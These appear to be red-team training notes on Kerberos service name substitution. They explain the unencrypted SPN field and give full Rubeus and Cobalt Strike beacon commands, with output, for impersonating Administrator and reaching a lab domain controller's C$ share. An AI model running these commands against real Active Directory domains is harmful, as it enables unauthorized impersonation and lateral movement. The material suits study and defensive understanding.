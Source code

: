 
Service Name Substitution is a technique that allows an adversary to "swap" a service ticket for one service, to another service.  That sounds a bit weird, so let's explain more fully...

Both the AS-REP and TGS-REP messages share the same data structure, called **KDC-REP**.  The content of the `ticket[5]` and `enc-part[6]` fields obviously depends on the type of reply being sent.  In the case of a TGS-REP, this would be a service ticket and an **EncTGSRepPart**.

![[Pasted image 20250722091407.png]]

The **Ticket** structure also has an encrypted part that contains data such as the principal the ticket was issued to, and a copy of the service session key.  However, notice that the SPN (the `sname[2]` field) is _not_ encrypted.

![[Pasted image 20250722091533.png]]

This means that if an adversary obtains a service ticket for say, HTTP/PC1, they can overwrite this field with another SPN, such as CIFS/PC1.  The ticket is still valid because the sname field is also not included in the ticket's checksum calculation.

>This only works if the substituted SPN is running as the same account as the original service; i.e. you cannot swap HTTP/PC1 for something like CIFS/PC2.

This technique works because when both services are running under the context of the same account, the session keys within the tickets are encrypted using the same key.  The substituted service will therefore have no problem decrypting the ticket, even though the KDC didn't explicitly return a TGS-REP for that SPN.

This abuse is particularly useful in cases of constrained delegation, where the service being delegated to is not immediately useful for lateral movement.  For example, here we see that _lon-ws-1_ can delegate to the TIME service on _lon-dc-1_.

```powershell
sAMAccountName: LON-WS-1$
msDS-AllowedToDelegateTo: time/lon-dc-1.contoso.com, time/lon-dc-1
```

The issue for an adversary is that TIME is not useful like CIFS, in that it doesn't grant remote access to the computer.  But using this technique, we can request a service ticket for TIME and just replace the service name in the returned ticket from TIME to CIFS, or anything else that we want.  This is made possible in Rubeus via the `/altservice` parameter.

>The following procedure assumes that protocol transition is enabled.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-ws-1$ /msdsspn:time/lon-dc-1 /altservice:cifs /ticket:doIFn[...snip...]5DT00= /impersonateuser:Administrator /nowrap
```

Where:  

- `/user` is the principal (e.g. computer) configured for the delegation.
    
- `/msdsspn` is the service that the principal is allowed to delegate to.
    
- `/altservice` is the service to substitute into the final ticket.
    
- `/ticket` is the TGT for the principal.
    
- `/impersonateuser` is the user we want to impersonate.

> The `altservice` parameter actually takes a comma-separated list of services, e.g. `/altservice:cifs,host,http`.  This will produce 3 new tickets that you can inject.

```powershell
[*] Action: S4U

[*] Building S4U2self request for: 'LON-WS-1$@CONTOSO.COM'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2self request to 10.10.120.1:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'LON-WS-1$@CONTOSO.COM'
[*] base64(ticket.kirbi):

      doIF8[...snip...]MtMSQ=

[*] Impersonating user 'Administrator' to target SPN 'time/lon-dc-1'
[*]   Final ticket will be for the alternate service 'cifs'
[*] Building S4U2proxy request for service: 'time/lon-dc-1'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2proxy request to domain controller 10.10.120.1:88
[+] S4U2proxy success!
[*] Substituting alternative service name 'cifs'
[*] base64(ticket.kirbi) for SPN 'cifs/lon-dc-1':

      doIGf[...snip...]RjLTE=
```

![[Pasted image 20250722091700.png]]

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:doIGf[...snip...]RjLTE=

[*] Using CONTOSO.COM\Administrator:FakePass

[*] Showing process : False
[*] Username        : Administrator
[*] Domain          : CONTOSO.COM
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2548
[+] Ticket successfully imported!
[+] LUID            : 0x9bb752

beacon> steal_token 2548
beacon> ls \\lon-dc-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/24/2025 13:33:39   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
          dir     01/23/2025 13:47:37   Documents and Settings
          dir     05/08/2021 08:20:24   PerfLogs
          dir     01/23/2025 15:46:17   Program Files
          dir     01/23/2025 15:46:18   Program Files (x86)
          dir     01/24/2025 14:08:45   ProgramData
          dir     01/23/2025 13:47:43   Recovery
          dir     01/29/2025 10:42:20   System Volume Information
          dir     01/24/2025 13:33:21   Users
          dir     01/24/2025 13:49:56   Windows
 12kb     fil     02/21/2025 01:45:32   DumpStack.log.tmp
 1gb      fil     02/21/2025 01:45:32   pagefile.sys
```